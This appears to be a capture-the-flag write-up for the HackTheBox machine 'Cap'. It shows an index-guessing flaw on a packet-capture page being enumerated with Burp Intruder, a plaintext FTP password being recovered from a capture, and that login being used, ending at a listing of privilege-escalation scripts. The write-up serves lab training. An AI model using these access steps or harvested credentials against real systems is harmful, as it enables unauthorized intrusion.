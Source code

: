 
About the website serving on port 80.
The website is about security details related to the server. The Dashboard shows line graph no. of Security events, failed logins and UDP scans. A user named Nathan is logged in and the 'log-out' button doesn't seems to work.

There are other 3 pages for '5 sec PCAP analysis', 'ipconfig' and 'network status'.

PCAP page(`http://10.10.10.245/data/27`) shows about the no of packets and there is also a option to download the pcap

ipconfig page shows the output of running `ipconfig` in that server
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.245  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:ada2  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:ada2  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:ad:a2  txqueuelen 1000  (Ethernet)
        RX packets 1481197  bytes 182397986 (182.3 MB)
        RX errors 0  dropped 571  overruns 0  frame 0
        TX packets 1429580  bytes 350219656 (350.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 64730  bytes 4985798 (4.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 64730  bytes 4985798 (4.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Network status shows the output of running `netstat` in that server

On the PCAP page url we are also passing a number may be it is the index as each index stores pcap of 5 seconds. Using Burp Intruder I checked how many indexes are there and what are the no of packets in each of them. There were 32 indexes.
I rebooted the machine and checked again. Now there are ony 2 indexes. The 0 index have the same details as before. I downloaded the pcap and looked for anything useful.

In the file I got a user and password for FTP.
```
USER: Nathan
PASS: Buck3tH4TF0RM3!
```

```console
┌──(kali㉿kali)-[~/HTB/Cap]
└─$ ftp  10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 1001     1001        46631 Jul 07  2020 LinEnum.sh
-rwxr-xr-x    1 1001     1001          887 Mar 10 14:03 enum.sh
-rwxr-xr-x    1 1001     1001        84889 Jul 07  2020 les.sh
-rw-rw-r--    1 1001     1001          415 Jul 17 10:29 les.txt
-rw-rw-r--    1 1001     1001       102798 Jul 17 10:28 linEnum.txt
-rw-rw-r--    1 1001     1001       105395 Jul 17 10:28 linpeas.txt
-rwxr-xr-x    1 1001     1001       325865 Mar 10 13:58 linpeasnew.sh
-rwxr-xr-x    1 1001     1001        37195 Jul 07  2020 linuxprivchecker.py
```